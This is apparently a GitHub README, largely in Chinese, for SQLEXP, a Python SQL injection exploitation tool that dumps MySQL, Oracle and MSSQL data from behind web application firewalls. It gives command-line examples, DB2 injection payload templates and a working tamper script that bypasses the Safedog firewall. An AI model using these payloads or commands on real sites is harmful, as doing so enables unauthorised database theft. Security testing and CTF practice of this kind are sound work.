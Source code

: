 # SQLEXP
[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/)[![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/ggg4566/SQLEXP/blob/master/LICENSE)

​		SQL 注入利用工具，存在waf的情况下自定义编写tamper脚本 dump数据.

​		对于SQL注入漏洞利用通常情况下我们使用SQLMAP，在waf存在的场景下想利用自己独有的payload进行注入抓取数据，这个时候SQLMAP就显得那么力不存心，这种情况并不少见，对于ctfer来说经常会遇到，每次都要重复编写脚本对于一个IT人士来说显然不可接受。该工具正是解决waf存在场景下利用SQLMAP dump数据的难题，使用方法和SQLMAP基本相同，只要你会使用SQLMAP那么该工具上手非常容易.

![image-20200427175012921](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427175012921.png)

**使用手册：**

​		使用方法和SQLmap类似，仅仅实现了mysql、oracle、mssql,支持[U|E|B|T]四种方式的注入。

* 该工具仅仅是用来利用SQL注入漏洞，并不支持检测
* 只实现了最基本的数据dump功能并不能像SQLMAP一样--os-shell以及其他用法
* 从request 文件里面加载利用注入点插入$\*$ ```id=1$*$&submit=submit```

---

```
Usage: python SQLEXP.py [options]

Options:
  -h, --help  show this help message and exit
Usage: python SQLEXP.py [options]

Options:
  -h, --help            show this help message and exit
  -v, --version         Show program's version number and exit

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --method=METHOD     Force usage of given HTTP method (e.g. GET|POST)
    --data=DATA         Data string to be sent through POST
    --cookie=COOKIE     HTTP Cookie header value
    --proxy=PROXY       Use a proxy to connect to the target URL,only can use
                        http proxy:[http://127.0.0.1:8080]
    --timeout=TIMEOUT   Seconds to wait before timeout connection
    --delay=DELAY_TIME  dbms delay timeout

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p PARAMETER        Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to this value
    --technique=TECH    SQL injection techniques to use (default "E")
    --string=FLAG       String to match when query is evaluated to True
    --time-sec=TIME_SEC
                        Seconds to wait before timeout connection
    --order-sec=ORDER_SEC
                        Resulting page URL searched for second-order response
    --tamper=TAMPER     Use given script(s) for tampering injection data
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --dump              Dump DBMS database table entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Misc:
    These options can be show some additional function.

    --debug             show deubg payload.
    
 Example: 
 list dbs:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql --dbs --tech U
 list tables:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --tables --tech U --proxy http://127.0.0.1:8080
 dump test db data:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --dump --tech E
#python SQLEXP.py -u "http://web.jarvisoj.com:32787/login.php" --data="username=user&password=admin" -p username --tamper=tamper_blank --dbms=mysql --technique=B --string="密码错误" --method=post  --dbs
#python SQLEXP.py-u http://localhost/sqlinject/sqlinject.php?id=2  -r req.txt --dbms mysql --tech E  --current-user  --debug
```

**开发手册：**

---

* 二次开发

工具设计思想借鉴了SQLMAP整个payload由boundary和基本查询query构成

![image-20200427183437621](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427183437621.png)

为了方便扩展添加支持其他数据库，构造语句和payload高度分离，不同数据库不同注入方法使用单独一个文件编写，由于对数据库基本查询能力进行了高度抽象化，所以添加支持其他数据引擎非常容易，只需要copy一份已经支持的数据库代码文件，在payload.py里面添加相对应的boundary和 base query即可。

​		比如添加支持db2：

​		1.copy -r SQLEXP\lib\core\dbs\mysql SQLEXP\lib\core\dbs\db2

  	  2.在SQLEXP\lib\parse\payload.py文件里面添加对应的代码

```python
db2_boundarys = {
    "length":"and len(%query)=%value",
    "time_length":"if(len(%query)>%value) WAITFOR DELAY '0:0:{T}'".format(T = conf.time_sec),
    ....
}
db2_payloads = {
    "query":"(select %s from t_n)",
    "base_query":"(select temp from (select ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as temp from t_n)xx where limit=%d)",
    "query_tab":"(select tn from (select  ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as tn from {db}.t_n)xx where limit=%d)",
    ...
}
....
if conf.dbms == 'db2':
    BOUNDARY.update(mssql_boundarys)
    SQL.update(mssql_payloads)
```

​	一定注意的的是这里创建的数据库文件夹和py文件名和--dbms参数联系紧密，程序运行的时候通过--dbms的参数来决定加载那个数据库引擎的代码，所以--dbms=db2的时候，db2/db2_E.py、db2/db2_U.py等文件一定要存在。

![image-20200427185702838](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185702838.png)

![image-20200427185838021](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185838021.png)

* Tamper编写

  tamper主要针对waf存在场景下的数据dump.

  编写非常简单只要将bounday和query替换为自己测试绕过的语句即可,以下为最新safedog的绕过tamper

  ```python
  #! /usr/bin/env python
  # -*- coding:utf-8 -*-
  # author:flystart
  # home:www.flystart.org
  
  b = " xor exp(~(/*!50000select*/*from(select(%query))a))"
  
  def do(strings):
      if "concat" in strings:
          strings = strings.replace('concat(',"/*!concat*/(")
      if "user" in strings:
          strings = strings.replace('user(',"/*!user*/(")
      strings = strings.replace(' and ', "&&")
      return strings
  def tamper(boundary,query):
      # print 'tamper'
      boundary = b
      query = do(query)
      return boundary,query
  ```

  ![image-20200427190147278](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427190147278.png)

**参考：**

https://github.com/shack2/SuperSQLInjectionV1

https://github.com/sqlmapproject/sqlmap
